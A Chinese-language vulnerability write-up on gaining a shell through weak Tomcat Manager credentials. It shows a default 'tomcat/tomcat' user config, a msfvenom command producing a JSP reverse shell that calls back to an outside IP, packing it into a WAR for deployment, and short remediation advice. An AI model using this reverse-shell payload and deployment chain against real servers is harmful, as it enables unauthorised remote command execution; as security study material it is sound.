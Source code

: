 ### 0x00简述

漏洞名称：Tomcat 后台管理弱口令GETSHELL

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：ALL

影响版本：ALL

### 0x01利用

漏洞利用的前提就是当前环境有弱口令且账号权限是 `manager-gui`，对应配置文件为：`conf/tomcat-users.xml`中：

```
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

然后就可访问`/manager/html` 进入后台管理界面部署WAR文件：

![1583230134224](./images/1583230134224.png)

接下来我们就需要自己手动打包一个WAR包，首先使用msfvenom生成jsp文件：

```jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=100.119.111.139 LPORT=5353 R > cmd.jsp
```

使用命令将当前文件夹打包：

```
jar -cvfM0 hello.war ./
```

运行之后会在当前目录生产一个 `hello.war` :

![1583231125933](./images/1583231125933.png)

上传并部署之后会提示一个消息 `OK` ：

![1583230507964](./images/1583230507964.png)

然后我们点击hello并访问刚才上传的jsp文件，虽然页面是一片空白，但是这个时候已经获取到了服务器的CMD权限：

![1583231264685](./images/1583231264685.png)

可以看到这个漏洞的杀伤力之大，但是在tomcat本身看来这个只是为了方便部署而设计的一个功能，所以只要是存在弱密码的情况，那么基本每个版本都可以拿到最后的权限。

### 0x02 修复

- 强密码
- 不要开manage的任何账户权限

### 0x03 参考链接

 https://www.freebuf.com/articles/web/36455.html 